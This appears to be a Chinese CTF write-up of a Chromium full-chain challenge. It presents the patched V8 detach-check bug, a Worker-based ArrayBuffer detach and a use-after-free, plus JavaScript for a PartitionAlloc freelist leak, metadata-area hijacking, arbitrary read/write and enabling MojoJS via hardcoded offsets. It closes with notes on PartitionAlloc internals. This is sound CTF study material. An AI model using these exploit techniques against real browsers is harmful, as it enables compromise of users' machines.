


# Chromium-Fullchain

Tctf chrome终章：


### 题目分析

首先他的漏洞点类似于之前的挑战：rce+sbx：

##### problem1
```
diff --git a/src/builtins/typed-array-set.tq b/src/builtins/typed-array-set.tq
index b5c9dcb261..babe7da3f0 100644
--- a/src/builtins/typed-array-set.tq
+++ b/src/builtins/typed-array-set.tq
@@ -70,7 +70,7 @@ TypedArrayPrototypeSet(
     // 7. Let targetBuffer be target.[[ViewedArrayBuffer]].
     // 8. If IsDetachedBuffer(targetBuffer) is true, throw a TypeError
     //   exception.
-    const utarget = typed_array::EnsureAttached(target) otherwise IsDetached;
+    const utarget = %RawDownCast<AttachedJSTypedArray>(target);
 
     const overloadedArg = arguments[0];
     try {
@@ -86,8 +86,7 @@ TypedArrayPrototypeSet(
       // 10. Let srcBuffer be typedArray.[[ViewedArrayBuffer]].
       // 11. If IsDetachedBuffer(srcBuffer) is true, throw a TypeError
       //   exception.
-      const utypedArray =
-          typed_array::EnsureAttached(typedArray) otherwise IsDetached;
+      const utypedArray = %RawDownCast<AttachedJSTypedArray>(typedArray);
 
       TypedArrayPrototypeSetTypedArray(
           utarget, utypedArray, targetOffset, targetOffsetOverflowed)
```
可以看到和rce相比删除了local API：%ArrayBufferDetach，所以我们首先需要找到一种可以释放ArrayBuffer的方法。
在参考大佬的wp时，了解到一种方法：
```
const ENABLE_NATIVE = 0
function ArrayBufferDetach(ab) {
    if (ENABLE_NATIVE) {
        eval("%ArrayBufferDetach(ab);");
        return
    }
    let w = new Worker('');
    w.postMessage({ab: ab}, [ab]);
    w.terminate();
}
```
通常而言，可以通过转移 ArrayBuffer （比如转移给另一个线程）来实现底层堆块的释放，这称之为 Neuter。在 V8 中，ArrayBuffer 提供了 Neuter 方法，代码如下所示：
```
/**
 * Detaches this ArrayBuffer and all its views (typed arrays).
 * Detaching sets the byte length of the buffer and all typed arrays to zero,
 * preventing JavaScript from ever accessing underlying backing store.
 * ArrayBuffer should have been externalized and must be detachable.
 */
void Detach();

// TODO(913887): fix the use of 'neuter' in the API.
V8_DEPRECATE_SOON("Use Detach() instead.", inline void Neuter()) { Detach(); }

/**
 * Make this ArrayBuffer external. The pointer to underlying memory block
 * and byte length are returned as |Contents| structure. After ArrayBuffer
 * had been externalized, it does no longer own the memory block. The caller
 * should take steps to free memory when it is no longer needed.
 *
 * The Data pointer of ArrayBuffer::Contents must be freed using the provided
 * deleter, which will call ArrayBuffer::Allocator::Free if the buffer
 * was allocated with ArraryBuffer::Allocator::Allocate.
 */
Contents Externalize();
```
- 可以看到，调用 Neuter 时 ArrayBuffer 已经被 Externalized 了，此时 ArrayBuffer 的 backing store 已经被调用方所释放了。

- Neuter 一个 ArrayBuffer 的常规做法是把它转移给一个工作者线程（ Web Workers ）。与桌面软件一样，JavaScript 默认的执行线程为 UI 线程，如果要执行复杂的计算工作，应当新建一个工作者线程来执行任务，以防止 UI 失去响应。

- 在 JavaScript 中，各线程之间通过 postMessage 实现数据的发送、通过 onmessage 回调函数实现消息的相应。线程之间的数据传递是通过复制（而不是共享）来实现的，因此传递对象时会经历序列化和反序列化的过程，即传出时进行序列化，传入时进行反序列化。大多数浏览器通过 [Structured clone algorithm](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Structured_clone_algorithm) 来实现这一特性。

- 如果要传递的对象实现了 [Transferable](https://developer.mozilla.org/en-US/docs/Web/API/Transferable) 接口，那么可以实现数据的高效转移，即并不复制数据，而是通过直接转移所有权来实现传递。对于这种传递方式，因为直接转移了所有权，因此原有线程不再享有对象数据的访问权限。ArrayBuffer 就是以这样的方式转移的。


##### problem2

在rce题目中我们的目标是一个独立的d8，此时他的内存分配是由ptmalloc控制的，而在fullchain中，内存分配已经被chrome接管，此时已是partitionalloc，我们释放一个ArrayBuffer：

```
var test = new Float64Array(arry_size).fill(i2f(0x747474747474n));
await free(test.buffer);
```

内存布局：

```
pwndbg> x/40gx 0x000021ea10804650
0x21ea10804650:	0x40468010ea210000	0x0000000000000000
0x21ea10804660:	0x0000000000000000	0x0000000000000000
0x21ea10804670:	0x0000000000000000	0x0000000000000000
0x21ea10804680:	0x0000000000000000	0x0000000000000000
0x21ea10804690:	0x0000000000000000	0x0000000000000000
0x21ea108046a0:	0x0000000000000000	0x0000000000000000
```
这里的数据其实一个大端序，我们把它转换为小端序：0x21ea10804640他指向的是下一个freed块，和tacache是一个很像的结构。

先来介绍一下partitionalloc的superpage布局：

```
    0x21ea10800000     0x21ea10801000 ---p     1000 0  //Guard page    
    0x21ea10801000     0x21ea10802000 rw-p     1000 0  //Metadata page    
    0x21ea10802000     0x21ea10804000 ---p     2000 0  //Guard pages    
    0x21ea10804000     0x21ea1080c000 rw-p     8000 0  //Slot span    
    0x21ea1080c000     0x21ea10a00000 ---p   1f4000 0  //Guard pages
```
我们的freed块所在的位置是Slot span，我们希望读取和写入的是Metadata page。

```
pwndbg> x/30gx 0x21ea10801000
0x21ea10801000:	0x0000561bbcf45160	0x000021ea10800000
0x21ea10801010:	0x000021ea10a00000	0x0000000000000000
0x21ea10801020:	0x000021ea10804650	0x0000000000000000
0x21ea10801030:	0x0000561bbcf466a8	0xffff000003000001
0x21ea10801040:	0x000021ea10808020	0x0000000000000000
0x21ea10801050:	0x0000561bbcf467a8	0xffff000001800001
0x21ea10801060:	0x0000000000000000	0x0000000000000000
```
可以看到其中是有chrome的基地址的，剩下的内容我们之后再利用部分再详解。

##### problem3

我们在进行sbx题目时，由于使用了--enable-blink-features=MojoJS，我们就可以直接调用mojo的ipc函数，但是在这道题目中去掉了这个flag位，所以我们无法像上题一样直接调用。

这里采用的方法就是将(bool)blink::RuntimeEnabledFeatures::is_mojo_js_enabled_置为1，这样就相当于使用了上述的参数。
```
chromium_fullchain$ nm --demangle ./chrome | grep -i 'blink::RuntimeEnabledFe
atures::is_mojo_js_enabled_'
000000000aa57325 b blink::RuntimeEnabledFeatures::is_mojo_js_enabled_
```

这里还涉及到一个问题就是我们在修改is_mojo_js_enabled_之后需要刷新网页才可以使其生效，但是在刷新的过程中就会触发chrome的垃圾回收，他就会去回收之前网页的对象，但是我们已经破坏掉了正常的freelist，这时候去释放的话就会导致程序crash，所以我们需要去修改一些hook：
```
(bool)base::PartitionAllocHooks::hooks_enabled_
base::PartitionAllocHooks::free_override_hook_

chromium_fullchain$ nm --demangle ./chrome | grep -i 'base::PartitionAllocHoo
ks::hooks_enabled_'
000000000a8f8848 b base::PartitionAllocHooks::hooks_enabled_

chromium_fullchain$ nm --demangle ./chrome | grep -i 'base::PartitionAllocHoo
ks::free_override_hook_'
000000000a8f8868 b base::PartitionAllocHooks::free_override_hook_
```
我们只要将hooks_enabled_置为1，再将free_override_hook_置为空函数，就可以架空free操作，这样就不会出现free，也就不会crash了。


### 以上就是对题目的分析，接下来我们来思考一下如何利用漏洞来解决问题

##### leak

由于题目存在uaf，我们只要构造好堆布局就可以很轻松的从以释放的object中泄漏指针：

```
		var no_gc = [];
		var arry_size = 1;
		var uaf = new Float64Array(arry_size).fill(i2f(0x747474747474n));
		var leaks = new Float64Array(arry_size);		
		await free(uaf.buffer);
		console.log("free buffers");
		//debug();
		for(let i = 0; i < 3; i++){
			gc();
		}
		console.log("gc");
		gar = []
		for(let i = 0; i < 800000; i++){
			gar.push(new Float64Array(0x20).fill(13.37));
		}
		console.log("magic");
		leaks.set(uaf, 0);
		leak_value = f2i(leaks[0]);
		if(leak_value == 0x747474747474n){
			throw 1;
		}
```

下面分别是uaf和leaks的内存布局（TypedArray）：

```
pwndbg> x/30gx 0x2bee08300ea1-1
0x2bee08300ea0:	0x080406e908201ac1	0x083084bd080411a9
0x2bee08300eb0:	0x0000000000000000	0x0000000000000008
0x2bee08300ec0:	0x0000000000000001	0x00000a99fce04650 => data_ptr
0x2bee08300ed0:	0x0000000000000000	0x0000000000000000

pwndbg> x/30gx 0x2bee08300e5d-1
0x2bee08300e5c:	0x080406e908201ac1	0x08308505080411a9
0x2bee08300e6c:	0x0000000000000000	0x0000000000000008
0x2bee08300e7c:	0x0000000000000001	0x00000a99fce04000 => data_ptr
0x2bee08300e8c:	0x0000000000000000	0x0000000000000000
```
下面是set之后的内存，此时leaks的data已经是指向freed块的指针了，我们就可以将它泄漏出来：

```
pwndbg> x/20gx 0x000020fbb8004650
0x20fbb8004650:	0x404600b8fb200000	0x0000000000000000

pwndbg> x/20gx 0x000020fbb8004000
0x20fbb8004000:	0x404600b8fb200000	0x0000000000000000
0x20fbb8004010:	0x604600b8fb200000	0x0000000000000000
0x20fbb8004020:	0x104000b8fb200000	0x0000000000000000
0x20fbb8004030:	0x204000b8fb200000	0x0000000000000000
0x20fbb8004040:	0x304000b8fb200000	0x0000000000000000
0x20fbb8004050:	0x404000b8fb200000	0x0000000000000000
0x20fbb8004060:	0x504000b8fb200000	0x0000000000000000
0x20fbb8004070:	0x604000b8fb200000	0x0000000000000000
0x20fbb8004080:	0x704000b8fb200000	0x0000000000000000
0x20fbb8004090:	0x804000b8fb200000	0x0000000000000000
```

解释一下gc()的作用：
- 如果在利用中需要多次的分配内存，一般希望对象都在Old Space中，这样对象的地址就不会改变。具体的方法就是大量地分配内存触发GC，将对象移动到Old Space。

这里有个不太明白的地方：并不是很懂这段代码的作用。
```
	gar = []
		for(let i = 0; i < 800000; i++){
			gar.push(new Float64Array(0x20).fill(13.37));
		}
```
##### 调试部分：

首先说下我的方法（纯笨办法，师傅们要是有好方法求分享qaq）
```
async function debug(){
	for(let j = 0; j < 0x100000; j++){
			var x = 1;
		for(let i = 0; i < 0x10000; i++){
			var x = x + i;
		}
	}

}
```
debug让browser暂停，之后ctrl c，在另一个gdb attach Renderer process来调试内存。


free前：

```
uaf -- Float64Array:

pwndbg> x/30gx 0x068c080a2ae8
0x68c080a2ae8:	0x080406e908201ac1	0x080a2aa1080411a9
0x68c080a2af8:	0x0000000000000000	0x0000000000000008
0x68c080a2b08:	0x0000000000000001	0x000032959cc04010 => data_ptr
0x68c080a2b18:	0x0000000000000000	0x0000000000000000
0x68c080a2b28:	0x0804035d00000000	0x0000747474747474
0x68c080a2b38:	0x080406e908200dc9	0x00000008080406e9
0x68c080a2b48:	0x0000000000000000	0x0000000000000000

uaf -- ArrayBuffer:

pwndbg> x/30gx 0x068c080a2aa0
0x68c080a2aa0:	0x080406e908200dc9	0x00000008080406e9
0x68c080a2ab0:	0x9cc0401000000000	0x0dadbc0000003295
0x68c080a2ac0:	0x00000002000019d2	0x0000000000000000
0x68c080a2ad0:	0x0000000000000000	0x0000001008040489
0x68c080a2ae0:	0x0000747474747474	0x080406e908201ac1
0x68c080a2af0:	0x080a2aa1080411a9	0x0000000000000000
0x68c080a2b00:	0x0000000000000008	0x0000000000000001
0x68c080a2b10:	0x000032959cc04010 => backing store	0x0000000000000000
0x68c080a2b20:	0x0000000000000000	0x0804035d00000000
0x68c080a2b30:	0x0000747474747474	0x080406e908200dc9
0x68c080a2b40:	0x00000008080406e9	0x0000000000000000
0x68c080a2b50:	0x0000000000000000	0x0000000300000000
0x68c080a2b60:	0x0000000000000000	0x0000000000000000

backing store:

pwndbg> x/30gx 0x000032959cc04010
0x32959cc04010:	0x0000747474747474	0x0000000000000000
0x32959cc04020:	0x3040c09c95320000	0x0000000000000000
0x32959cc04030:	0x4040c09c95320000	0x0000000000000000
0x32959cc04040:	0x5040c09c95320000	0x0000000000000000
```

free后：
```
pwndbg> x/30gx 0x000032959cc04010
0x32959cc04010:	0x2040c09c95320000	0x0000000000000000
0x32959cc04020:	0x3040c09c95320000	0x0000000000000000
0x32959cc04030:	0x4040c09c95320000	0x0000000000000000
```
可以看到出现了我们想要的大端序指向下一个freed块的指针。之后我们将它放入Old Space：

```
uaf -- Float64Array:

pwndbg> x/30gx 0x068c08300e90
0x68c08300e90:	0x080406e908201ac1	0x0830d7d5080411a9
0x68c08300ea0:	0x0000000000000000	0x0000000000000008
0x68c08300eb0:	0x0000000000000001	0x000032959cc04010
0x68c08300ec0:	0x0000000000000000	0x0000000000000000
0x68c08300ed0:	0x08201f4900000000	0x080406e9080406e9
0x68c08300ee0:	0x08300df90825f755	0x0804030d08300dd9
0x68c08300ef0:	0xfffffffc00000000	0x08300f510830d5e5
0x68c08300f00:	0x080406e908200301	0x081015c9080406e9
0x68c08300f10:	0x0810049908300f1d	0x082025d900043ee1

uaf -- ArrayBuffer:

pwndbg> x/30gx 0x068c0830d7d4
0x68c0830d7d4:	0x080406e908200dc9	0x00000000080406e9
0x68c0830d7e4:	0x0000000000000000	0x0000000100000000
0x68c0830d7f4:	0x0000000600000000	0x0000000000000000
0x68c0830d804:	0x0000000000000000	0x0000001008040489
0x68c0830d814:	0x0000000000000000	0x080406e908200dc9
0x68c0830d824:	0x00000008080406e9	0x9cc0400000000000
0x68c0830d834:	0x0da90c0000003295	0x00000002000019d2
0x68c0830d844:	0x0000000000000000	0x0000000000000000
0x68c0830d854:	0x00000008080404d9	0x0825e445081021f5
0x68c0830d864:	0xfffffffe00000000	0x00000008080404d9

backing store:

pwndbg> x/30gx 0x000032959cc04010
0x32959cc04010:	0x2040c09c95320000	0x0000000000000000
0x32959cc04020:	0x3040c09c95320000	0x0000000000000000
0x32959cc04030:	0x4040c09c95320000	0x0000000000000000
0x32959cc04040:	0x5040c09c95320000	0x0000000000000000
```

接下来就是将leaks的data覆盖为uaf，这样就泄漏出了freelist指针，在阅读wp的过程中，发现这个泄漏指针包含了很多重要信息：
- 由于我们的freed块都位于Slot span（忘记的可以看上面的superpage 布局）， 所以我们只要将末五位（低20位）置0就可以得到superpage的基地址。

- PartitionPage大小是0x4000，我们取出泄漏指针的末四位 >> 14就可以得到PartitionPageIndex
- PartitionPage基地址就是Index*0x4000 + superpage的基地址
- MetadataArea的基地址就是 superpage的基地址 + 0x1000
- 当前的MetadataArea地址就是 MetadataArea的基地址 + PartitionPageIndex * 0x20

代码实现：

```
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
}
```

得到了上述信息我们就可以着手将内存分配到MetadataArea来获取chrome基地址：
```
        leaks[0] = i2f(swap(BigInt(metadata_area)));
		uaf.set(leaks, 0);
		success("hijack uaf'fd to metadata_area");
```
首先将uaf的backing store的指针修改为metadata_area。

```
		// uas all free slot, assume only alloc 1 time
		bins = []
		count = 0
		for(let i = 0; i < 100000; i++){
			leaks.set(uaf, 0);
			var tmp_fd = f2i(leaks[0]);
			if(tmp_fd != 0){
				bins.push(new ArrayBuffer(8*arry_size));
				count = count + 1;
			}
			else{
				break;
			}
		}
		if(count > 90000){
			throw 2;
		}
```

这里来不停消耗free slot，停止的标志就是fd不为0（也就是我们设置的metadata_area，也就意味着我们下次分配就会到达metadata_area）

		
```
		console.log('[+] after', hex(count), 'try fd = null');
		leaks.set(uaf, 0);

		try{
			var metadata = new BigUint64Array(new ArrayBuffer(8));
			success("should over metadata now");
		}
		catch(error){
			throw 100;
		}
```
到这里我们就得到了metadata_area。

接下来是arbitrary read and write：
```
    function read64(addr){
			metadata[0] = addr;
			var tmp_obj = new BigUint64Array(new ArrayBuffer(8));
			var leaked = swap(metadata[0]);
			tmp_obj[0] = BigInt(leaked);
			return leaked;
		}
		
	 function write64(addr, value){
			metadata[0] = addr;
			var tmp_obj = new BigUint64Array(new ArrayBuffer(8));
			tmp_obj[0] = value;
		}
		
		
		var code_leak = read64(BigInt(metadata_area)+0x10n);
		success_value("code leak: ", code_leak);
		var code_base = code_leak-0xaa246a8n;
		success_value("code base: ", code_base);

		var mojo_enabled = code_base+0xaa57325n;
		var hooks_enabled = code_base+0xa8f8848n;
		var free_override_hook = code_base+0xa8f8868n;
		success_value('mojo_enabled: ', mojo_enabled);
		success_value('hooks_enabled: ', hooks_enabled);
		success_value('free_override_hook: ', free_override_hook);
		var ret_func = code_leak-0xcd7598n;
		success_value('ret: ', ret_func);
```
剩下的内容就和sbx那个题目一样了，这里就不重复了。


### 用到的一些基础知识（未完还再续。。。）：

#### partitionalloc：

- 简单介绍一下partitionalloc，他是为了解决一些传统分配器（ptmalloc or jemalloc等）产生的问题而诞生的，当传统分配器为object分配内存时，分配器并不知道他是什么类型的object，也不允许你去选择存储的位置，这就导致了一个c++ object它既可以和string相邻，也可以和函数指针结构相邻。这就使得UAF的利用非常简单，因为他们都在一个heap。而partitionalloc将object存储在特定的bucket中，不同类型的object就不一定会分配到同一个heap，这样就加大了uaf的使用难度。

- partitionalloc的核心是superpage，它是一个2MB的block，并且以一个保护页开始，具体结构就以本题为例：

```
    0x21ea10800000     0x21ea10801000 ---p     1000 0  //Guard page    
    0x21ea10801000     0x21ea10802000 rw-p     1000 0  //Metadata page    
    0x21ea10802000     0x21ea10804000 ---p     2000 0  //Guard pages    
    0x21ea10804000     0x21ea1080c000 rw-p     8000 0  //Slot span    
    0x21ea1080c000     0x21ea10a00000 ---p   1f4000 0  //Guard pages
```
- Slot span是PartitionPage结构的连续范围。

1、chromium 有四个分区：
```
    // We have the following four partitions.
    //   - Node partition: A partition to allocate Nodes. We prepare a
    //     dedicated partition for Nodes because Nodes are likely to be
    //     a source of use-after-frees. Another reason is for performance:
    //     Since Nodes are guaranteed to be used only by the main
    //     thread, we can bypass acquiring a lock. Also we can improve memory
    //     locality by putting Nodes together.
    //   - Layout object partition: A partition to allocate LayoutObjects.
    //     we prepare a dedicated partition for the same reason as Nodes.
    //   - Buffer partition: A partition to allocate objects that have a strong
    //     risk where the length and/or the contents are exploited from user
    //     scripts. Vectors, HashTables, ArrayBufferContents and Strings are
    //     allocated in the buffer partition.
    //   - Fast malloc partition: A partition to allocate all other objects.
    static PartitionAllocatorGeneric m_fastMallocAllocator;
    static PartitionAllocatorGeneric m_bufferAllocator;
#if !ENABLE(OILPAN)
    static SizeSpecificPartitionAllocator<3328> m_nodeAllocator;
#endif
    static SizeSpecificPartitionAllocator<1024> m_layoutAllocator;
```


2、PartitionAlloc有两种实现，分别是PartitionRoot和PartitionRootGeneric，但是我们不会直接使用PartitionRoot和PartitionRootGeneric，而是使用相对应的SizeSpecificPartitionAllocator<size>和PartitionAllocatorGeneric。因为SizeSpecificPartitionAllocator<size>和PartitionAllocatorGeneric还通过PartitionAllocMemoryReclaimer来进行内存的回收。下面列出这两种实现的特点。

- PartitionRoot
    - Allocation和Free 一个Partition必须要在同一个线程（不支持多线程，所以不需要锁，速度快）
   
    - PartitionRoot在init()时，需指定一个最大值MAX_SIZE，后序在该PartitionRoot上申请的空间，都应该小于该对象的MAX_SIZE，否则会申请失败。
    - 所申请的大小必须与系统指针大小所对齐
- PartitionRootGeneric
   
    - 支持多线程 Allocation和Free 一个Partition，采取自旋锁来进行同步
    - 可以申请任意大小的空间，无大小限制

3、PartitionAlloc结构：




4、源码时间：

###### PartitionRoot：

```
ALWAYS_INLINE void* partitionBucketAlloc(PartitionRootBase* root, int flags, size_t size, PartitionBucket* bucket)
{
    PartitionPage* page = bucket->activePagesHead;
    // Check that this page is neither full nor freed.
    ASSERT(page->numAllocatedSlots >= 0);
    void* ret = page->freelistHead;
    if (LIKELY(ret != 0)) {
        // If these asserts fire, you probably corrupted memory.
        ASSERT(partitionPointerIsValid(ret));
        // All large allocations must go through the slow path to correctly
        // update the size metadata.
        ASSERT(partitionPageGetRawSize(page) == 0);
        PartitionFreelistEntry* newHead = partitionFreelistMask(static_cast<PartitionFreelistEntry*>(ret)->next);
        page->freelistHead = newHead;
        page->numAllocatedSlots++;
    } else {
        ret = partitionAllocSlowPath(root, flags, size, bucket);
        ASSERT(!ret || partitionPointerIsValid(ret));
    }
#if ENABLE(ASSERT)
    if (!ret)
        return 0;
    // Fill the uninitialized pattern, and write the cookies.
    page = partitionPointerToPage(ret);
    size_t slotSize = page->bucket->slotSize;
    size_t rawSize = partitionPageGetRawSize(page);
    if (rawSize) {
        ASSERT(rawSize == size);
        slotSize = rawSize;
    }
    size_t noCookieSize = partitionCookieSizeAdjustSubtract(slotSize);
    char* charRet = static_cast<char*>(ret);
    // The value given to the application is actually just after the cookie.
    ret = charRet + kCookieSize;
    memset(ret, kUninitializedByte, noCookieSize);
    partitionCookieWriteValue(charRet);
    partitionCookieWriteValue(charRet + kCookieSize + noCookieSize);
#endif
    return ret;
}


ALWAYS_INLINE void* partitionAlloc(PartitionRoot* root, size_t size, const char* typeName)
{
#if defined(MEMORY_TOOL_REPLACES_ALLOCATOR)
    void* result = malloc(size);
    RELEASE_ASSERT(result);
    return result;
#else
    size_t requestedSize = size;
    size = partitionCookieSizeAdjustAdd(size);
    ASSERT(root->initialized);
    size_t index = size >> kBucketShift;
    ASSERT(index < root->numBuckets);
    ASSERT(size == index << kBucketShift);
    PartitionBucket* bucket = &root->buckets()[index];
    void* result = partitionBucketAlloc(root, 0, size, bucket);
    PartitionAllocHooks::allocationHookIfEnabled(result, requestedSize, typeName);
    return result;
#endif // defined(MEMORY_TOOL_REPLACES_ALLOCATOR)
}
```
partitionAlloc实际上是通过partitionBucketAlloc来实现的，在partitionBucketAlloc中：
```
    void* ret = page->freelistHead;
    if (LIKELY(ret != 0)) {
        // If these asserts fire, you probably corrupted memory.
        ASSERT(partitionPointerIsValid(ret));
        // All large allocations must go through the slow path to correctly
        // update the size metadata.
        ASSERT(partitionPageGetRawSize(page) == 0);
        PartitionFreelistEntry* newHead = partitionFreelistMask(static_cast<PartitionFreelistEntry*>(ret)->next);
        page->freelistHead = newHead;
        page->numAllocatedSlots++;
    } else {
        ret = partitionAllocSlowPath(root, flags, size, bucket);
        ASSERT(!ret || partitionPointerIsValid(ret));
    }
```
在这里会选择hot path or slow path，已为此bucket大小分配页面时采用hot path，会根据使用者请求的大小来确定对应的bucket，再确定bucket之后就会保存freelistHead的值，之后将其更新为next，并将原head值返回。反之使用slow path，他分为四种情况：
- 一、针对非常大的大小的直接映射，由partitionDirectMap函数处理。
- 二、触发一个函数partitionSetNewActivePage，该函数接受最初传递给partitionBucketAlloc的bucket，并扫描它的页面列表以找到合适的页面。合适的页面被描述为具有free slots的页面，它可以满足原始调用者所请求的分配。
- 三、检查空的和已分解的page list。如果从任何一个列表中找到合适的页面，就会选择它。
- 四、需要一个全新的page。


###### PartitionRootGeneric：

在看代码之前先插入一下bucket：

```
static const size_t kGenericMinBucketedOrder = 4; // 8 bytes.
static const size_t kGenericMaxBucketedOrder = 20; // Largest bucketed order is 1<<(20-1) (storing 512KB -> almost 1MB)
static const size_t kGenericNumBucketedOrders = (kGenericMaxBucketedOrder - kGenericMinBucketedOrder) + 1;
static const size_t kGenericNumBucketsPerOrderBits = 3; // Eight buckets per order (for the higher orders), e.g. order 8 is 128, 144, 160, ..., 240
static const size_t kGenericNumBucketsPerOrder = 1 << kGenericNumBucketsPerOrderBits;
static const size_t kGenericNumBuckets = kGenericNumBucketedOrders * kGenericNumBucketsPerOrder;
static const size_t kGenericSmallestBucket = 1 << (kGenericMinBucketedOrder - 1);
static const size_t kGenericMaxBucketSpacing = 1 << ((kGenericMaxBucketedOrder - 1) - kGenericNumBucketsPerOrderBits);
static const size_t kGenericMaxBucketed = (1 << (kGenericMaxBucketedOrder - 1)) + ((kGenericNumBucketsPerOrder - 1) * kGenericMaxBucketSpacing);
static const size_t kGenericMinDirectMappedDownsize = kGenericMaxBucketed + 1; // Limit when downsizing a direct mapping using realloc().
static const size_t kGenericMaxDirectMapped = INT_MAX - kSystemPageSize;
static const size_t kBitsPerSizet = sizeof(void*) * CHAR_BIT;
```
PartitionAllocatorGeneric拥有的Bucket数量(kGenericNumBuckets)为136(kGenericNumBucketedOrders * kGenericNumBucketsPerOrder = 17 * 8),这里为每个order安排了8个bucket（kGenericSmallestBucket），下面有一张图共136个bucket（包括无效的即大小不合适的bucket）：



```
ALWAYS_INLINE PartitionBucket* partitionGenericSizeToBucket(PartitionRootGeneric* root, size_t size)
{
    size_t order = kBitsPerSizet - countLeadingZerosSizet(size);
    // The order index is simply the next few bits after the most significant bit.
    size_t orderIndex = (size >> root->orderIndexShifts[order]) & (kGenericNumBucketsPerOrder - 1);
    // And if the remaining bits are non-zero we must bump the bucket up.
    size_t subOrderIndex = size & root->orderSubIndexMasks[order];
    PartitionBucket* bucket = root->bucketLookups[(order << kGenericNumBucketsPerOrderBits) + orderIndex + !!subOrderIndex];
    ASSERT(!bucket->slotSize || bucket->slotSize >= size);
    ASSERT(!(bucket->slotSize % kGenericSmallestBucket));
    return bucket;
}


ALWAYS_INLINE void* partitionAllocGenericFlags(PartitionRootGeneric* root, int flags, size_t size, const char* typeName)
{
#if defined(MEMORY_TOOL_REPLACES_ALLOCATOR)
    void* result = malloc(size);
    RELEASE_ASSERT(result);
    return result;
#else
    ASSERT(root->initialized);
    size_t requestedSize = size;
    size = partitionCookieSizeAdjustAdd(size);
    PartitionBucket* bucket = partitionGenericSizeToBucket(root, size);
    void* ret = nullptr;
    {
        SpinLock::Guard guard(root->lock);
        // TODO(bashi): Remove following RELEAE_ASSERT()s once we find the cause of
        // http://crbug.com/514141
#if OS(ANDROID)
        RELEASE_ASSERT(bucket >= &root->buckets[0] || bucket == &PartitionRootGeneric::gPagedBucket);
        RELEASE_ASSERT(bucket <= &root->buckets[kGenericNumBuckets - 1] || bucket == &PartitionRootGeneric::gPagedBucket);
        RELEASE_ASSERT(root->initialized);
#endif
        ret = partitionBucketAlloc(root, flags, size, bucket);
    }
    PartitionAllocHooks::allocationHookIfEnabled(ret, requestedSize, typeName);
    return ret;
#endif
}


ALWAYS_INLINE void* partitionAllocGeneric(PartitionRootGeneric* root, size_t size, const char* typeName)
{
    return partitionAllocGenericFlags(root, 0, size, typeName);
}
```
